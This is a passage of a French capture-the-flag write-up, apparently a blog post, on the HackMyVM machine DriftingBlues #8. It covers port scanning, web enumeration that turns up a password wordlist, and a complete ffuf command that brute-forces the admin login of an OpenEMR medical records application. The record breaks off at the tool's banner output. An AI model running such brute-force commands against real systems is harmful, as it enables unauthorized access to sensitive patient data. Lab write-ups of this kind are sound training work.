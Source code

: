 # Solution du CTF DriftingBlues #8 de HackMyVM

~el8
----

Manquait à ma collection le numéro 8 de cette série de CTFs *DriftingBlues* trouvé sur [HackMyVM](https://hackmyvm.eu/). Comme le nom du site l'indique on récupère l'image virtuelle sur le site, le principe est le même que sur VulnHub. Ce qui manque à ces plateformes c'est sans doute un filtrage sur la qualité des VMs proposés qui serait pourtant pratique pour éviter de gaspiller des heures sur une énumération improbable.  

Ici les 8 autres épisodes de la saga ont été bien conçus c'est donc sans crainte que je plonge dans cette nouvelle aventure.  

```plain
Nmap scan report for 192.168.56.14 
Host is up (0.00019s latency). 
Not shown: 65534 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
| http-title: OpenEMR Login 
|_Requested resource was interface/login/login.php?site=default 
|_http-server-header: Apache/2.4.38 (Debian)
```

Pas d'accès SSH prévu sur cette machine. Pas bien grave, je me servirais de [ReverseSSH](https://github.com/Fahrj/reverse-ssh) le moment venu.  

On note tout de suite la présence d'un OpenEMR, un logiciel utilisé dans le milieu médical. Sur *exploit-db* je remarque différents exploits mais ils nécessitent généralement de disposer d'un compte.  

Fouillant sur *DuckDuckGo*, je remarque que le logiciel ne dispose pas de comptes par défaut, je teste quand même quelques identifiants classiques (*admin / admin*, etc) sans succès.  

So long and thank for all the wordlists
---------------------------------------

Une énumération des fichiers web avec l'aide de Feroxbuster me remonte deux entrées intéressantes. D'abord le script *admin.php* qui semble lié à l'installation d'OpenEMR et mentionne la version *5.0.1 (3)*.  

Ensuite un fichier *wordlist.txt* qui contient une série de mots de passe.  

Tentons donc de casser un compte sur l'appli web avec cette liste :  

```plain
$ ffuf -u "http://192.168.56.14/interface/main/main_screen.php?auth=login&site=default" \
  -X POST -H "Content-type: application/x-www-form-urlencoded" \
  -d "new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=FUZZ&languageChoice=1"  \
  -w wordlist.txt -fs 456 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : POST 
 :: URL              : http://192.168.56.14/interface/main/main_screen.php?auth=login&site=default 
 :: Wordlist         : FUZZ: wordlist.txt 
 :: Header           : Content-Type: application/x-www-form-urlencoded 
 :: Data             : new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=FUZZ&languageChoice=1 
```